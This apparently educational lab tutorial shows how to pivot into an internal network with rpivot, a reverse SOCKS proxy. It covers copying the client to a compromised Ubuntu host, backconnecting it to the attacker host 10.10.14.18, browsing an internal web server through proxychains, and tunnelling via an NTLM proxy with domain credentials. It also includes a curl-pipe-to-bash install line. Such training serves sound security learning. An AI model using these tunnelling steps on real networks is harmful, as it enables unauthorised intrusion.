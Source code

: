 # Web Server Pivoting with Rpivot

[Rpivot](https://github.com/klsecservices/rpivot) is a reverse SOCKS proxy tool written in Python for SOCKS tunneling. Rpivot binds a machine inside a corporate network to an external server and exposes the client's local port on the server-side. We will take the scenario below, where we have a web server on our internal network (`172.16.5.135`), and we want to access that using the rpivot proxy.

<figure><img src="../../../../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

We can start our rpivot SOCKS proxy server using the below command to allow the client to connect on port 9999 and listen on port 9050 for proxy pivot connections.

### **Cloning rpivot**

```shell-session
al1abb@htb[/htb]$ git clone https://github.com/klsecservices/rpivot.git
```

### **Installing Python2.7**

```shell-session
al1abb@htb[/htb]$ sudo apt-get install python2.7
```

### **Alternative Installation of Python2.7**

```shell-session
al1abb@htb[/htb]$ curl https://pyenv.run | bash
al1abb@htb[/htb]$ echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.bashrc
al1abb@htb[/htb]$ echo 'command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.bashrc
al1abb@htb[/htb]$ echo 'eval "$(pyenv init -)"' >> ~/.bashrc
al1abb@htb[/htb]$ source ~/.bashrc
al1abb@htb[/htb]$ pyenv install 2.7
al1abb@htb[/htb]$ pyenv shell 2.7
```

We can start our rpivot SOCKS proxy server to connect to our client on the compromised Ubuntu server using `server.py`.

### **Running server.py from the Attack Host**

```shell-session
al1abb@htb[/htb]$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

Before running `client.py` we will need to transfer rpivot to the target. We can do this using this SCP command:

### **Transfering rpivot to the Target**

```shell-session
al1abb@htb[/htb]$ scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

### **Running client.py from Pivot Target**

```shell-session
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999

Backconnecting to server 10.10.14.18 port 9999
```

### **Confirming Connection is Established**

```shell-session
New connection from host 10.129.202.64, source port 35226
```

We will configure proxychains to pivot over our local server on 127.0.0.1:9050 on our attack host, which was initially started by the Python server.

Finally, we should be able to access the webserver on our server-side, which is hosted on the internal network of 172.16.5.0/23 at 172.16.5.135:80 using proxychains and Firefox.

### **Browsing to the Target Webserver using Proxychains**

```shell-session
proxychains firefox-esr 172.16.5.135:80
```

<figure><img src="../../../../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>

Similar to the pivot proxy above, there could be scenarios when we cannot directly pivot to an external server (attack host) on the cloud. Some organizations have [HTTP-proxy with NTLM authentication](https://docs.microsoft.com/en-us/openspecs/office_protocols/ms-grvhenc/b9e676e7-e787-4020-9840-7cfe7c76044a) configured with the Domain Controller. In such cases, we can provide an additional NTLM authentication option to rpivot to authenticate via the NTLM proxy by providing a username and password. In these cases, we could use rpivot's client.py in the following way:

### **Connecting to a Web Server using HTTP-Proxy & NTLM Auth**

```shell-session
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```

